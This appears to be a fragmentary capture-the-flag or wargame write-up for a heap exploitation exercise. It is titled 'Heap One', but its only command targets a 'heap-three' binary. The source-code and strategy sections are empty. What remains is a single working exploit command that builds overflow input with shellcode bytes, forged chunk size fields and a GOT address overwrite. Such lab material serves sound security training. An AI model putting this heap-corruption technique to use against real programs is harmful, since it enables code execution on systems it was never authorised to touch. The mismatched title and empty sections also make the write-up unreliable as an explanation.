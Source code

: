 # HEAP ONE


## SOURCE CODE
```

```

## STRATEGY


## EXPLOIT

FINAL EXPLOIT:
```
./heap-three `python -c 'import struct; print "A"*12 + "\xB8\xD5\x87\x04\x08\xFF\xD0" + " " + "B"*36 + "\x65" + " " + "C"*92 + struct.pack("I", 0xfffffffc) + struct.pack("I", 0xfffffffc) + struct.pack("I", 0x804c130) + struct.pack("I",0xf7e69014)'`
```

